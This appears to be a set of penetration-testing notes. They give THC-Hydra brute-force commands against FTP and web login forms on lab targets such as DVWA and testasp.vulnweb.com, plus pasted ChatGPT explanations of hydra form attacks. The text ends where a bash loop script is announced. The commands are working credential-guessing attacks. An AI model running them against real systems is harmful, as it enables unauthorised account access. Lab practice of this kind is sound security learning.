 nmap -p 21 10.10.10.16 -> ftp 10.10.10.16
hydra -L Usernames.txt -P Passwords.txt ftp://10.10.10.16

hydra -l admin -P /usr/share/wordlists/rockyou.txt testasp.vulnweb.com http-post-form “/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout” -vV -f
hydra -l admin -P /usr/share/wordlists/test.txt 192.168.80.134 http-post-form “/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login” -vV -f

#ChatGPT

THC-Hydra is indeed a versatile and powerful tool for conducting brute-force attacks on various login services. However, it's essential to clarify that using it to test for the Logjam vulnerability is not a standard or recommended method. Logjam is a vulnerability related to the Diffie-Hellman key exchange in SSL/TLS, and it's typically detected and assessed differently, as explained in the previous response.

Here's an example of how THC-Hydra can be used for a more standard brute-force attack against an HTTP login page. Please note that this example is for educational purposes only and should only be performed on systems you own or have explicit permission to test.

Install THC-Hydra: You can typically install THC-Hydra on Linux using package managers like apt or yum. For example, on Debian-based systems:

bash
Copy code
sudo apt-get install hydra
Prepare a Wordlist: You need a list of possible usernames and passwords to use for the brute-force attack. You can create a simple text file containing pairs of usernames and passwords, one pair per line. For example, wordlist.txt:

plaintext
Copy code
admin:password
user:123456
john:secret
Run the Brute-Force Attack: Use THC-Hydra to perform the brute-force attack. For an HTTP login page, the command might look like this:

bash
Copy code
hydra -l admin -P wordlist.txt example.com http-post-form "/login.php:user=^USER^&password=^PASS^:Invalid login" -t 4
-l: Specify the username to start with (in this case, "admin").
-P: Specify the path to the wordlist file.
example.com: Replace this with the target website's URL.
http-post-form: Specify the login form details.
"/login.php:user=^USER^&password=^PASS^:Invalid login": Define the login form parameters, where ^USER^ and ^PASS^ will be replaced with usernames and passwords from the wordlist.
-t 4: Set the number of parallel tasks to 4 (adjust as needed).
Review the Results: THC-Hydra will attempt to log in using the usernames and passwords from the wordlist. If successful, it will display the valid credentials.
----------------------------------------------------------------------------------------------------
#ChatGPT

Certainly! Here's a bash script that loops through a passwords file in the specified directory and 
runs the Hydra command with different password files
